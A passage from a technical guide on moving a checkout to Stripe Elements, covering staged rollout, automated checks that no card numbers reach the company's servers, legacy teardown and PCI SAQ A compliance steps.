| 20% | All users | 2 weeks | Conversion drop > 2% |
| 50% → 100% | All users | 1 week each | Same thresholds |

**Ensuring no raw card data hits new infrastructure:**

The guarantee comes from architecture, not code: the Stripe Elements component never collects card data in your JavaScript. But you must verify this with active checks:

1. **Request body logging audit:** Search your new server logs for patterns resembling PANs using Luhn-validating regex: `/\b(?:4[0-9]{12}(?:[0-9]{3})?|5[1-5][0-9]{14}|3[47][0-9]{13})\b/`. Any match is an incident.

2. **Network-level verification:** During QA on the Stripe branch, use browser DevTools Network panel to confirm no request to your origin contains card data. Automate this with Playwright/Cypress:

```ts
// In E2E test for Stripe checkout path
page.on('request', request => {
  if (request.url().includes('api.yoursite.com')) {
    const body = request.postDataJSON()
    expect(body).not.toHaveProperty('card_number')
    expect(body).not.toHaveProperty('cvv')
    expect(JSON.stringify(body)).not.toMatch(/\b4[0-9]{12,15}\b/)  // Luhn-ish
  }
})
```

3. **WAF rule for PAN detection:** Add a WAF rule on your API gateway that alerts (but initially does not block) on request bodies containing strings matching PAN patterns. This is your safety net — if it ever fires on the new Stripe path, it's a critical bug.

**Phase 3 — Complete cutover and legacy teardown:**

Once the feature flag is at 100% and stable for two weeks:
1. Disable the legacy form endpoint on the server — return `410 Gone` to any client still hitting it
2. Remove the legacy checkout component from the codebase
3. Remove the legacy server-side card processing endpoint and any associated decryption keys
4. Scrub server logs from the PCI scope window (or work with your security team to archive and restrict access)

**Phase 4 — Compliance validation:**

To formally move from SAQ D to SAQ A, you need to demonstrate:

- **Network segmentation:** Your web servers, app servers, and databases no longer handle card data. Document the data flow diagram showing card data goes directly from browser to Stripe's API, never touching your origin.
- **Log sanitization:** Produce evidence that your logs contain no historical PANs from the new integration (the WAF alert never fired). For old logs that may contain PANs from the legacy system, work with your QSA (Qualified Security Assessor) on a retention/scrubbing policy.
- **Attestation of compliance:** SAQ A has a section where you attest that all payment processing is handled by a PCI DSS-compliant third party. File the updated SAQ A in place of your previous SAQ D.
- **Penetration test of the new integration:** Your new scope is smaller, but a pen test focusing on the Stripe integration (CSP, clickjacking, client secret handling, webhook signature validation) validates the implementation quality.

**Tradeoffs:** Running both implementations in parallel increases complexity and test surface area — a bug in the feature-flag routing logic could accidentally send a user through the wrong path. Mitigate with deterministic cohort assignment (hash of `userId` mod 100, not random) so each user always sees the same experience across sessions. The staged rollout takes 6–8 weeks but is the only way to validate payment success rates before fully committing. A "big bang" cutover is tempting but creates an unquantifiable blast radius if the new integration has a subtle bug in an edge case (non-US cards, 3DS flows, Stripe Radar declines).
